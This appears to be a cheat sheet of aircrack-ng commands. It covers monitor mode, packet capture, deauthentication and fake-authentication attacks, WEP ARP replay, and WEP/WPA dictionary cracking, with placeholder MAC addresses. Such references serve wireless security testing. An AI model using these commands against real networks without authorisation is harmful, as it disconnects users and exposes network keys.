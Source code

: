 #### airmon-ng

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Stop monitor mode
sudo airmon-ng stop wlan0mon

# Check for interfering processes
sudo airmon-ng check kill
```

#### airodump-ng

```bash
# Basic usage
sudo airodump-ng wlan0mon

# Target specific channel
sudo airodump-ng -c 6 wlan0mon

# Capture specific network
sudo airodump-ng -c 6 --bssid [MAC] -w capture wlan0mon

# Show only WEP networks
sudo airodump-ng --encrypt WEP wlan0mon
```

#### aireplay-ng

```bash
# Deauthentication attack
sudo aireplay-ng -0 10 -a [AP_MAC] wlan0mon

# Targeted deauth
sudo aireplay-ng -0 5 -a [AP_MAC] -c [CLIENT_MAC] wlan0mon

# Fake authentication
sudo aireplay-ng -1 0 -a [AP_MAC] wlan0mon

# ARP replay attack (WEP)
sudo aireplay-ng -3 -b [AP_MAC] wlan0mon
```

#### aircrack-ng

```bash
# Crack WEP
aircrack-ng capture-01.cap

# Crack WPA/WPA2 with dictionary
aircrack-ng -w wordlist.txt capture-01.cap

# Show networks in capture
aircrack-ng capture-01.cap
```
